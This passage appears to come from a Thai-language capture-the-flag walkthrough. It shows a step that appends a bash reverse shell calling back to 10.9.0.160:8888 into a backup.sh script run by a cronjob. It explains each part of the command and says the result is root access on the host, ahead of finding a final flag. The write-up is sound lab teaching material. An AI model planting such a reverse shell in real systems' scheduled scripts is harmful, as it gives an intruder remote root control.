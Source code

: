 40. 🧬 เขียน Reverse Shell ลงไปใน backup.sh

📥 ใช้คำสั่ง:

```bash
echo "bash -i >& /dev/tcp/10.9.0.160/8888 0>&1" >> backup.sh
```

![reverseshellbackup](images/30.png)

📌 อธิบาย:

- `bash -i`:
   - เปิด interactive shell หมายถึง shell ที่พร้อมรับ input/output จากผู้ใช้
   - ต้องเป็น `-i` เพื่อให้ shell ทำงานในแบบโต้ตอบ (interactive) ผ่าน TCP connection ได้
- `>& /dev/tcp/10.9.0.160/8888`: ส่งข้อมูลจาก shell ไปยังเครื่อง IP `10.9.0.160` ผ่าน TCP port `8888`
- `0>&1`: เชื่อม stdin เข้ากับ stdout → ใช้ socket เดียวในการรับ/ส่งข้อมูล
- `>> backup.sh`: 	เพิ่มคำสั่งนี้ลงท้ายไฟล์ `backup.sh` โดยไม่ลบเนื้อหาเดิม

📎 หมายเหตุ:
Reverse shell จะทำงานก็ต่อเมื่อมี service (หรือ admin) มารันไฟล์ `backup.sh` ซึ่งมักเป็น cronjob หรือสคริปต์บน host

🟢 หากสำเร็จ → shell จากเครื่อง host จะเชื่อมกลับมา และเราจะได้สิทธิ์ root บน host จริง

### 🏴‍☠️ 2.18 ควบคุม Host และค้นหา Flag สุดท้าย (flag4.txt)
> ตอนนี้เราควบคุมเครื่องเป้าหมายจากระยะไกลได้สำเร็จ 🎉
> (ซึ่งไม่ใช่ container แล้ว แต่เป็น host จริงที่ทำงานอยู่ภายนอก)
